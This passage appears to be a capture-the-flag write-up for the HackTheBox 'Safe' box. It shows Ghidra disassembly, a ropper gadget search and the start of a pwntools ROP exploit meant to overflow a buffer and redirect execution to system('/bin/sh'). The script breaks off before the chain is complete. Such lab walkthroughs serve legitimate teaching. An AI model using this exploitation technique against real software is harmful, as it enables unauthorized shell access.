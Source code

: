The only thing we need to do is to find some special instructions within the application, chain them together and hijack the execution flow of the application.  
If we inspect the main function, we can see that in main there is a system call, and the arguments are passed to system via the RDI registes, so, if we can overwrite RDI with "/bin/sh" we will spawn a shell execution:
```
00401167 48 8d 3d        LEA        RDI,[s_/usr/bin/uptime_00402008]                 = "/usr/bin/uptime"
         9a 0e 00 00
0040116e e8 cd fe        CALL       <EXTERNAL>::system                               int system(char * __command)
         ff ff
```
If we inspect available functions in ghidra, we can see a ```test()``` function that is doing the following:  
```
**************************************************************
*                                                            *
*  FUNCTION                                                  *
**************************************************************
undefined __stdcall test(void)
undefined         AL:1           <RETURN>
test                                            XREF[3]:     Entry Point(*), 00402060,
                                                             00402108(*)  
00401152 55              PUSH       RBP
00401153 48 89 e5        MOV        RBP,RSP
00401156 48 89 e7        MOV        RDI,RSP
00401159 41 ff e5        JMP        R13
```
and it is actually moving the value of the base pointer RBP into the stack pointer RSP (as default when loading a function) and then RSP into RDI and it is jumping to R13.  
Now if we overwrite R13 with the address of system() we will be able to execute /bin/sh (since we already loaded it into BP->SP->RDI).  
To do this let's search for in-memory gadgets:  
```
gef➤  ropper --search "pop r13"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r13

[INFO] File: /root/Documents/HTB/Boxes/Safe/myapp
0x0000000000401206: pop r13; pop r14; pop r15; ret;
```
As we can see, at the address ```0x0000000000401206``` we have a pop r13 followed by two other pops which we can fill with null bytes (0x0).  
now, we should have everything we need to craft the exploit:  
```
from pwn import *

context(terminal=['tmux','new-window']) # Default terminal used by pwnlib.util.misc.run_in_new_terminal().
                         # Can be a string or an iterable of strings.
                         # In the latter case the first entry is the terminal and the rest are default arguments.
p = gdb.debug('./myapp', 'b main')
context(os='linux', arch='amd64')

junk = ("A"*112).encode() # Converting string to bytes
pop_r13 = p64(0x401206)# ropper --search "pop r13" -> 0x0000000000401206: pop r13; pop r14; pop r15; ret;
                       # POP removes the element from the top of the hardware-supported stack into the specified operand
                       # RSP -> R13
                       # if we write system address to R13 then test() will return to R13
```